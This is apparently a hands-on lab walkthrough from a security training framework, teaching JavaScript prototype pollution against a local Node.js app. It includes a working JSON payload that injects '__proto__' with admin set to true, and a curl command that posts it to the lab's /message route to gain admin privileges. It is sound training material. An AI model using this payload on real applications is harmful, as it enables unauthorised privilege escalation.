







# KBID 147 - Parameter binding

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```


Now that the app is running let's go hacking!


## Reconnaissance

JavaScript is prototype-based: when new objects are created, they carry over the properties and methods of the prototype “object”, which contains basic functionalities such as toString, constructor and hasOwnProperty.

Object-based inheritance gives JavaScript the flexibility and efficiency that web programmers have come to love – but it also makes it vulnerable to tampering.

Malicious actors can make application-wide changes to all objects by modifying object, hence the name prototype pollution.

Interestingly, attackers don’t even need to directly modify object – they can access it through the ‘**proto**’ property of any JavaScript object. And once you make a change to object, it applies to all JavaScript objects in a running application, including those created after tampering.

Let's open the application, we have a login screen:


Loggin in with user/user.



We see this user has no Admin privileges, also we have a feature to send a message to an admin. Let's use this and check the request



Post request with email and username as expected.
We also noticed in the homepage a functionality to create a new user.



Login with the newly created user.



## Exploitation

Let's try our prototype pollution payload in the /message route.

```json
{
  "__proto__": { "admin": true },
  "email": "evil@proto.pollution",
  "msg": "You have been hacked!"
}
```

To make it easier let's put this payload in a file called evil.json.
Now lets use to curl to request the application with evil.json

```text
curl -H "content-type: application/json" -d@evil.json http://localhost:5000/message
```



We get a response back from the server. Let's refresh the page to see if it worked.



Success! We now have a user with admin privileges!

If we create another user we see the new user will also have admin set to True.




## Additional sources


